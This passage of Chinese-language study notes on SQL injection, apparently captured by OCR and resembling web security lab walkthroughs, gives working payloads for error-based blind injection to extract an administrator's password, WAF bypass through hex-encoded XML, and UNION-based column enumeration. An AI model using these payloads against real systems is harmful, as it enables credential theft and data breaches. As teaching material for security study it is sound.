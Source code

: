 
   5. 故意触发数据库的错误，以此盲注. Two

      ```sql
      确认是否可以触发数据库错误
      TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
      确认users表是否存在
      TrackingId=xyz'||(SELECT '' FROM users WHERE ROWNUM = 1)||'
      确认用户是否存在
      TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
      确认密码长度
      TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'
      开始注入
      xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN TOCHAR(1/0) ELSE 'a' END FROM Users)='a
      
      xyz'; select cast(username as int) from user limit 1,1
      ```
      
      

5. 通过XML实现注入（通过Hackvector绕过WFA防火墙）

   ```xml
   <?xml version="1.0" encoding="UTF-8"?>
   <stockCheck>
     <productId>1</productId>
     <storeId>1 
   		<@hex_entities>UNION SELECT username || '~' || password FROM users
   		<@/hex_entities>
   	</storeId>
   </stockCheck>
   ```

6. 二阶SQL注入   存储的字符串信息包含了可执行的语句，当提取数据和SQL语句结合使用的时候，会发生注入



注入过程：

1. 使用ORDER BY 或是UNION SELECT来确定查询返回的列的数量 以便进一步渗透（因为返回的数据列表数量、数据类型必须和原有的查询一致，才会正常返回，否则数据库会报错）

   ```sql
   ' ORDER BY 1--
   ' ORDER BY 2--
   ' ORDER BY 3--
   遇到错误则停止
   或者
   ' UNION SELECT NULL--
   ' UNION SELECT NULL,NULL--
   ' UNION SELECT NULL,NULL,NULL--  
   遇到正确则停止
   ```

2. 确定原有查询哪一列返回的是字符串类型（因为大多数情况下，我们需要获取的信息是字符串类型）

   ```sql
   ' UNION SELECT 'a',NULL,NULL,NULL--
   ' UNION SELECT NULL,'a',NULL,NULL--
   ' UNION SELECT NULL,NULL,'a',NULL--
   ' UNION SELECT NULL,NULL,NULL,'a'--
   ```
